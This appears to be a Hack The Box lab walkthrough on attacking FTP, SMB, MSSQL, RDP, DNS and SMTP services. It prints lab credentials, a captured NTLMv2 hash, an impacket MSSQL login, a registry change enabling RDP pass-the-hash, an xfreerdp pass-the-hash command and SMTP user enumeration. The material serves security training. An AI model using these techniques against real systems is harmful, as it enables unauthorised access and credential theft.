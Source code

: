 # ⚙ Attacking common services

## Assessment

### FTP

What username is available for the FTP server?

* I used the wordlist from ftp **anonymous** and get the username and password list.

<figure><img src="../../.gitbook/assets/image (79) (1).png" alt=""><figcaption></figcaption></figure>

### SMB

What is the name of the shared folder with READ permissions?

<figure><img src="../../.gitbook/assets/image (68).png" alt=""><figcaption><p>GGJ</p></figcaption></figure>

What is the password for the username "jason"?

<figure><img src="../../.gitbook/assets/image (39) (1).png" alt=""><figcaption><p>MAKE SURE TO RUN WITH --local-auth</p></figcaption></figure>

Login as the user "jason" via SSH and find the flag.txt file. Submit the contents as your answer.

<figure><img src="../../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

### SQL DB

What is the password for the "mssqlsvc" user?

<figure><img src="../../.gitbook/assets/image (19) (1).png" alt=""><figcaption></figcaption></figure>

`mssqlsvc::WIN-02:aaaaaaaaaaaaaaaa:5a04b004fa4e9d85f6186628bbb5f628:0101000000000000800f5b3cd1a9d9013832986d3a5b90e8000000000100100045006c0046004800450079006a0061000300100045006c0046004800450079006a006100020010006d007100780051006100480062004900040010006d00710078005100610048006200490007000800800f5b3cd1a9d90106000400020000000800300030000000000000000000000000300000205c323361b6fee9491d3dade42cd1a0ade509215af472deb6f497f224759ddc0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e0034000000000000000000`

<figure><img src="../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

Enumerate the "flagDB" database and submit a flag as your answer.

```
impacket-mssqlclient 'mssqlsvc:princess1@10.129.203.12' -windows-auth
```

* Then explored the flagDB and got the hash.

### RDP

{% hint style="success" %}
RDP to target with username "`htb-rdp`" and password "`HTBRocks!`"
{% endhint %}

What is the name of the file that was left on the Desktop? (Format example: filename.txt)

* `pentest-notes.txt`

Which registry key needs to be changed to allow Pass-the-Hash with the RDP protocol?

* `DisableRestrictedAdmin`

Connect via RDP with the Administrator account and submit the flag.txt as you answer.

<figure><img src="../../.gitbook/assets/image (20) (2).png" alt=""><figcaption><p>Administrator:0E14B9D6330BF16C30B1924111104824</p></figcaption></figure>

1. `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`
2. `xfreerdp /v:10.129.203.13 /u:Administrator /pth:0E14B9D6330BF16C30B1924111104824 /dynamic-resolution`
3. ![](<../../.gitbook/assets/image (8) (1).png>)

### DNS

Find all available DNS records for the "inlanefreight.htb" domain on the target name server and submit the flag found as a DNS record as the answer.

<figure><img src="../../.gitbook/assets/image (22) (1).png" alt=""><figcaption></figcaption></figure>

* used subbrute to enum the subdomain.
* found hr.inlanefreight.htb.
* performed dns zone transfer on hr.inalnefreight.htb.
* got the flag.

### EMAIL

What is the available username for the domain inlanefreight.htb in the SMTP server?

* ```shell-session
  smtp-user-enum -M RCPT -U ../users.list -D inlanefreight.htb -t 10.129.203.12
  ```

Access the email account using the user credentials that you discovered and submit the flag in the email as your answer.

<figure><img src="../../.gitbook/assets/image (58) (1) (1).png" alt=""><figcaption><p>marlin@inlanefreight.htb:poohbear</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (41) (1).png" alt=""><figcaption></figcaption></figure>

